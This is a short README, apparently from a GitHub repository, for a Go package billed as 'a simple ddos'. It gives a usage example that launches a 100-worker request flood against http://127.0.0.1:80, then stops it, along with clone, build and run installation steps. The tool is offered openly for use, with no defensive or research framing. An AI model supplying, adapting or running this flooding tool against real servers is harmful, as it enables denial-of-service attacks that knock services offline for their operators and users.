 # ddos
A simple ddos written in go

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)

example of using:

```golang
func main() {
	workers := 100
	d, err := ddos.New("http://127.0.0.1:80", workers)
	if err != nil {
		panic(err)
	}
	d.Run()
	time.Sleep(time.Second)
	d.Stop()
	fmt.Println("DDoS attack server: http://127.0.0.1:80")
	// Output: DDoS attack server: http://127.0.0.1:80
}
```


# Installation:
- git clone https://github.com/krishpranav/ddos
- cd ddos
- go build ddos.go
- ./ddos
